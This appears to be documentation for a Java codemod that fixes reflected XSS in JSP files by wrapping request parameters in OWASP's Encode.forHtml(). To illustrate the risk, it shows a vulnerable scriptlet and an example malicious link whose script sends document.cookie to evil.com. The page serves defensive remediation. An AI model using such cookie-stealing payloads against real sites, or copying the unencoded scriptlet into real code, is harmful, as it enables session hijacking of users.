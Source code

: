 ```yaml
---
title: "Encode Untrusted Scriptlet Contents"
sidebar_position: 1
---
```


## pixee:java/encode-jsp-scriptlet

| Importance | Review Guidance            | Requires SARIF Tool |
|------------|----------------------------|---------------------|
 | High       | Merge After Cursory Review | No                  |


This codemod encodes certain JSP scriptlets to fix what appear to be trivially exploitable [Reflected Cross-Site Scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting) vulnerabilities in JSP files. XSS is a vulnerability that is tricky to understand initially, but easy to exploit.

Consider the following example code:

```java
Welcome to our site <%= request.getParameter("name") %>
```

An attacker could construct a link with an HTTP parameter `name` containing malicious JavaScript and send it to the victims, and if they click it, cause it to execute in the victims' browsers in the domain context. This could allow attackers to exfiltrate session cookies and spoof their identity, perform actions on victim's behalf, and more generally "do anything" as that user. Here's an example of such an evil link used by attacker to leak the victim's cookies back to their evil site logs:

`https://bank.com/search?name=<script>document.location='http://evil.com/?'+document.cookie</script>`

Our changes introduce an HTML-encoding mechanism that look something like this:

```diff
-Welcome to our site <%= request.getParameter("name") %>
+Welcome to our site <%= org.owasp.encoder.Encode.forHtml(request.getParameter("name")) %>
```

This change encodes HTML control characters that attackers would use to execute code. 

If you have feedback on this codemod, [please let us know](mailto:feedback@pixee.ai)!

## F.A.Q. 

### Why is this codemod marked as Merge After Cursory Review?

This change is safe and effective in almost all situations. However, depending on the context in which the scriptlet is rendered (e.g., inside an HTML tag, in JavaScript, unquoted contexts, etc.), you may need to use another encoding method. Check out the [OWASP XSS Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) to learn more about these cases and other controls you may need in exceptional cases. The security control introduced from OWASP used has `forHtml()` variants for all situations (e.g., `forJavaScript()`, `forCssString()`).

## Codemod Settings

N/A

## References
* [Security Control (OWASP Encode.java) source code](https://github.com/OWASP/owasp-java-encoder/blob/main/core/src/main/java/org/owasp/encoder/Encode.java#L143)
* [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
* [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
* [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
